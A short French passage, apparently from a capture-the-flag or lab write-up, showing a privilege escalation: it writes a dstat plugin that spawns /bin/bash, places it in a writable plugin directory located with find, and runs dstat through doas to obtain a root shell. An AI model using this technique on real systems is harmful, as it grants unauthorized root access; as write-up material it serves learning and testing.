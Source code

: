 On crée un script `dstat_shell.py` :
```python
import os

os.system("/bin/bash")
```

On le place dans `/usr/local/share/dstat/` (qui est accessible en écriture : `find / -type d -writable 2> /dev/null)`) 

On exécute `dstat` avec `doas` et notre plugin :
```
doas /usr/bin/dstat --shell
```

Et on est root ! ✅